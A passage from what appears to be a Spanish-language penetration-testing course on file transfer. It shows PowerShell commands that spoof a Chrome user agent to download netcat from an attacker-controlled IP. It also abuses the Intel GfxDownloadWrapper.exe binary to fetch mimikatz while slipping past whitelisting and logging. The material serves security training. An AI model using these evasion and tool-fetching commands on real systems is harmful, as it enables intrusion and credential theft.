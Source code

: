 Si administradores o defensores diligentes han incluido en la lista negra a cualquiera de estos agentes de usuario, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contiene un parámetro UserAgent, que permite cambiar el agente de usuario predeterminado a uno que emule Internet Explorer, Firefox, Chrome, Opera o Safari. Por ejemplo, si Chrome se usa internamente, configurar este agente de usuario puede hacer que la solicitud parezca legítima.

#### Listado de agentes de usuario
```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

#### Solicitar con el agente de usuario de Chrome
```powershell
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

## LOLBAS / GTFOBins
La inclusión de aplicaciones en la lista blanca puede impedirle utilizar PowerShell o Netcat, y el registro de la línea de comandos puede alertar a los defensores sobre su presencia. En este caso, una opción puede ser utilizar un "LOLBIN" (binario que vive de la tierra), también conocido como "binarios de confianza fuera de lugar". Un ejemplo de LOLBIN es el controlador de gráficos Intel para Windows 10 (GfxDownloadWrapper.exe), instalado en algunos sistemas y que contiene funcionalidad para descargar archivos de configuración periódicamente. Esta funcionalidad de descarga se puede invocar de la siguiente manera:
#### Transferencia de archivos con GfxDownloadWrapper.exe
```powershell
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

